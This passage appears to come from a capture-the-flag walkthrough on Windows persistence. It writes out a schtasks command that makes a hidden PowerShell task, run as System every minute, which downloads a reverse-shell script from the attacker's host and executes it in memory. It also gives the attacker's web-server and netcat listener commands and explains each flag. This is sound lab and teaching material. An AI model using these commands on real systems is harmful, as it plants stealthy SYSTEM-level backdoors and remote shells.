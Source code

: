 We can use a base64 obfuscated powershell reverse shell. I like using <https://revshells.com> for this

**We then need to create our scheduled task**:

```powershell
schtasks /create /tn CradleScript /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((New-Object Net.WebClient).DownloadString(''http://10.10.14.31:7070/script.ps1'''))'" /sc minute /mo 1 /ru System
```

-   {{< figure src="/ox-hugo/2025-04-22-072120_.png" >}}

**Start our listener &amp; webserver**:

-   Webserver:
    -   `python3 -m http.server 7070`
-   Listener:
    -   `rlwrap -cAr nc -nvlp 53`

**The task grabs our script &amp; immediatley executes it in memory**:

-   {{< figure src="/ox-hugo/2025-04-22-072247_.png" >}}

**We get our revere shell**:

-   {{< figure src="/ox-hugo/2025-04-22-072317_.png" >}}

**Double check by disconnecting &amp; seeing if it re-connects and it does**:
  -![](/ox-hugo/2025-04-22-072337_.png)



-  Scheduled Task Backdoor Utilizing Download Cradle Command Breakdown:

    -   `schtasks /create`
        -   Creates a new scheduled task on Windows.
    -   `/tn CradleScript`
        -   Sets the task name to `CradleScript`.
        -   This name is how the task will appear in the Task Scheduler.
    -   `/tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe`
        -   Specifies the action that the task will execute.
        -   `powershell.exe`: Starts PowerShell.
        -   **Arguments passed to powershell**:
            -   `-WindowStyle hidden`: Runs the task in a hidden window to prevent showing the PowerShell window.
            -   `NoLogo -NonInteractive -ep bypass -nop`: PowerShell flags to suppress output and allow script execution bypassing restrictions.
            -   `IEX ((New-Object Net.WebClient).DownloadString(...))`: Uses `Invoke-Expression` to download and immediately execute the script.
            -   `/sc minute /mo 1`: Sets the task to run every 1 minute.
            -   `/ru System`: Runs the task under `System` privileges.


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}
